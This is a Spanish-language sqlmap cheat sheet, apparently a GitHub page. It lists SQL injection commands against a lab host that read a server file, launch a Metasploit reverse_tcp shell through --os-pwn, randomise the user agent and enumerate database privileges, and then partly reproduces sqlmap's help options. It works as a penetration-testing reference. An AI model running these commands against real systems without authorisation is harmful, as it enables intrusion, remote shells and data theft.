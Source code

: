 Leer un archivo del sistema de ficheros  

`sqlmap -u "http://10.10.1.100/section.php?id=51" --file-read=/xampp/htdocs/index.php --batch --batch`

Cargar metasploit en directorio temporal usando reverse_tcp.  

`sqlmap -u "http://10.10.1.100/section.php?id=51" --os-pwn`

Usar web browser aleatorio  

`sqlmap -u "http://10.10.1.100/section.php?id=51" --dbs --random-agent`

Obtener privilegios del usuario  

`sqlmap -u "http://10.10.1.100/section.php?id=51" --privileges`

Mostrar el usuario de connexión  

`sqlmap -u "http://10.10.1.100/section.php?id=51" --current_user`

## Todas las opciones de uso.  

    Options:
      -h, --help            Show basic help message and exit
      -hh                   Show advanced help message and exit
      --version             Show program's version number and exit
      -v VERBOSE            Verbosity level: 0-6 (default 1)
    
    Target:
        At least one of these options has to be provided to define the
        target(s)
    
        -d DIRECT           Connection string for direct database connection
        -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
        -l LOGFILE          Parse target(s) from Burp or WebScarab proxy log file
        -x SITEMAPURL       Parse target(s) from remote sitemap(.xml) file
        -m BULKFILE         Scan multiple targets given in a textual file
        -r REQUESTFILE      Load HTTP request from a file
        -g GOOGLEDORK       Process Google dork results as target URLs
        -c CONFIGFILE       Load options from a configuration INI file
    
      Request:
        These options can be used to specify how to connect to the target URL
    
        --method=METHOD     Force usage of given HTTP method (e.g. PUT)
        --data=DATA         Data string to be sent through POST (e.g. "id=1")
        --param-del=PARA..  Character used for splitting parameter values (e.g. &)
        --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
        --cookie-del=COO..  Character used for splitting cookie values (e.g. ;)
        --load-cookies=L..  File containing cookies in Netscape/wget format
        --drop-set-cookie   Ignore Set-Cookie header from response
        --user-agent=AGENT  HTTP User-Agent header value
        --random-agent      Use randomly selected HTTP User-Agent header value
        --host=HOST         HTTP Host header value
        --referer=REFERER   HTTP Referer header value
        -H HEADER, --hea..  Extra header (e.g. "X-Forwarded-For: 127.0.0.1")
        --headers=HEADERS   Extra headers (e.g. "Accept-Language: fr\nETag: 123")
        --auth-type=AUTH..  HTTP authentication type (Basic, Digest, NTLM or PKI)
        --auth-cred=AUTH..  HTTP authentication credentials (name:password)
        --auth-file=AUTH..  HTTP authentication PEM cert/private key file
        --ignore-code=IG..  Ignore (problematic) HTTP error code (e.g. 401)
        --ignore-proxy      Ignore system default proxy settings
        --ignore-redirects  Ignore redirection attempts
        --ignore-timeouts   Ignore connection timeouts
        --proxy=PROXY       Use a proxy to connect to the target URL
        --proxy-cred=PRO..  Proxy authentication credentials (name:password)
        --proxy-file=PRO..  Load proxy list from a file
        --tor               Use Tor anonymity network
